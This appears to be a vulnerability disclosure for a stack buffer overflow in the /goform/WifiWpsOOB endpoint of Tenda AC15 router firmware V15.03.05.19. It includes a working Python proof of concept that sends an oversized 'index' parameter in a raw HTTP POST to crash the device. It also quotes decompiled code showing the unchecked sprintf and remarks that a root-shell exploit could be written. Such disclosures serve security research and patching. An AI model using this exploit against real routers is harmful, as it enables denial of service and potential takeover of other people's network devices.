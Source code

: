 # WifiWpsOOB

### Affected product

```
AC15V15.03.05.19
```

### POC

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.119'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x60
p2 = b'wifi_chkHz=1&index=' + p1

p3 = b"POST /goform/WifiWpsOOB" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.119" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)

```

/goform/WifiWpsOOB，index  is controllable and will eventually be spliced into dest by sprintf. It is worth noting that the size is not checked, resulting in a stack overflow vulnerability

### Detail

```c
  nptr = (char *)sub_9E1DC(a1, "index", 0);
  v1 = (const char *)sub_2BA8C(a1, (int)"wifi_chkHz", (int)"0");
  if ( atoi(v1) )
    v2 = 5;
  else
    v2 = 24;
  v11 = v2;
  v3 = atoi(nptr);
  printf("%s %d: index = %d, wl_rate = %d####\n", "formWifiWpsOOB", 4130, v3, v11);
  if ( nptr )
  {
    if ( v11 == 5 )
    {
      SetValue("wl.bcm11ac", &byte_EEEF8);
      GetValue((int)"wl5g.public.enable", (int)v8);
    }
    else
    {
      SetValue("wl.bcm11ac", "0");
      GetValue((int)"wl2g.public.enable", (int)v8);
    }
    v5 = atoi(nptr);
    if ( sub_9B748(v11, v5) )
    {
      sprintf(s, "%s;%s", nptr, "0");
      result = sub_9CB14(a1, s);
    }
```

You can see the router crash, and finally we can write an exp to get a root shell

